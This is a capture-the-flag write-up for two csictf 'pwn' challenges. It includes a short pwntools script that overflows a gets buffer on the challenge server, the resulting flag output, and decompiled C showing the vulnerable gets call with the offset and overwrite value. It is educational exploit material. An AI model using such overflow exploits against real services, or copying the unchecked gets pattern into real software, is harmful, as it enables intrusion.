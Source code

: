 Send 45 bytes for `gets` buffer overflow into `local_c` for the flag.


### Exploit

```python
#!/usr/bin/python3

from pwn import *

p = remote('chall.csivit.com', 30001)
p.sendlineafter('Please pour me some coffee:\n',45 * b'A')
p.interactive()
```

### Output

```bash
 ./exploit.py
[+] Opening connection to chall.csivit.com on port 30001: Done
[*] Switching to interactive mode

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```


## pwn intended 0x2

Tags: _pwn_ _bof_ _x86-64_

### Analysis

```c
undefined8 main(void)
{
  char local_38 [44];
  int local_c;
  
  local_c = 0;
  puts("Welcome to csictf! Where are you headed?");
  gets(local_38);
  puts("Safe Journey!");
  if (local_c == -0x35014542) {
    puts("You\'ve reached your destination, here\'s a flag!");
    system("/bin/cat flag.txt");
  }
  return 0;
}
```

Send 44 bytes, then `0xcafebabe` (`0xcafebabe`) for `gets` buffer overflow into `local_c` for the flag.
